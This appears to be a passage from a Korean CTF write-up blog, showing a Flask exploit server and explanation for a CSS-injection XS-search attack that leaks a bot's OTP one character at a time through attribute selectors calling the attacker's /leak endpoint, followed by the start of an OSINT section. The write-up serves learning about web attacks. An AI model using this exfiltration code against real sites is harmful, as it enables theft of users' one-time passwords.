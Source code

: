 ```python
...

@app.route('/<int:style_i>')
def style(style_i: int):
    global OTP
    css = ''
    while len(OTP) != style_i:
        time.sleep(0.5 * style_i)
    for c in string.digits + string.ascii_letters:
        css += f'input[name=otp][value^={OTP}{c}] {% raw %}{{ background-image: url({URL}/leak?otp={OTP}{c}); }}{% endraw %}\n'
    return css, 200, {'Content-Type': 'text/css'}


@app.route('/leak')
def leak():
    global OTP
    OTP = request.args['otp']
    return 'OK'

if __name__ == '__main__':
    app.run(host='::', port=8000)
```
{: file='exploit.py'}
<br/>

아이디어는 이렇습니다.  
1. 12개의 `link`태그를 작성하여 봇이 방문하게 합니다.
2. `/0`부터 `/11`까지 `link`태그에 의해서 우리의 서버로 요청이 오는데 `/0` 요청부터 특성 선택자를 이용한 `CSS injection` 페이로드를 반환합니다.
3. `/0`의 경우 `sleep`을 하지않고 건너뛰기 때문에 가장먼저 매칭되는 `otp`의 첫 글자를 `/leak`으로 요청을 보내고 전역 변수인 `OTP`에 이 값을 저장합니다.
4. 그러면 `sleep`하고 있던 다음 엔드포인트인 `/1`이 `while` 문을 탈출하고 `CSS injection` 페이로드를 반환합니다. 이 과정을 반복하게 됩니다.
<br/>

아래와 같은 `link`태그들을 보내주면 정상적으로 `XS-search`를 성공한 모습을 볼 수 있습니다.  
![link](../../../assets/img/2023-03-20/link.png){: w="800" h="400" }  
<br/>

![search](../../../assets/img/2023-03-20/search.png){: w="800" h="400" }  
<br/>

다시 보면서 알게되었는데 `/otp` 엔드포인트에서 위의 `link`태그를 적어주면 브라우저에 의해서 `CORB`가 걸리는데 봇이 방문하면 걸리지 않습니다... `headless` 때문인지 잘 모르겠네요...(아시는 분 있으면 댓글 달아주세요)  
<br/>


# OSINT
***


## WannaFlag I: An Introduction (188pt)(solved)
***
![description1](../../../assets/img/2023-03-20/description1.png){: w="500" h="250" }  
<br/>
